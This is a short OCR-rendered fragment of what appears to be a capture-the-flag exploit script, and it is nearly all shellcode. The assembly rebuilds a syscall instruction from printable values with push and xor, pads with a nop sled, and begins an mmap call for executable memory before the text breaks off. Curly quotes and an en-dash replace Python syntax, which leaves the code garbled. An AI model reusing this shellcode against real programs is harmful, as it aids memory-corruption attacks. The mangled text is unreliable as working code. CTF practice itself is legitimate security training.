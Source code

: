 ​

        push rbx;

        pop rsp;

​

        pop rax;

        pop rax;

        pop rax;

        pop rax;

        pop rax;

​

        push 0x3030474a;

        pop rax;

        xor eax, 0x30304245;

​

        push rax;

​

        pop rax;

        pop rax;

        pop rax;

        pop rax;

        pop rax;

​

        push r9;

        pop rax;

    ”’

​

    sh1 =  ‘jmp xx;’+ “nop;”*(0x100–5)+“xx:” + ”’

        mov rsp, rbx

        add rsp, 0xf00

​

        /* mmap(addr=0x410000, length=0x1000, prot=7, flags=’MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED’, fd=0, offset=0) */

        push (MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED) /* 0x32 */

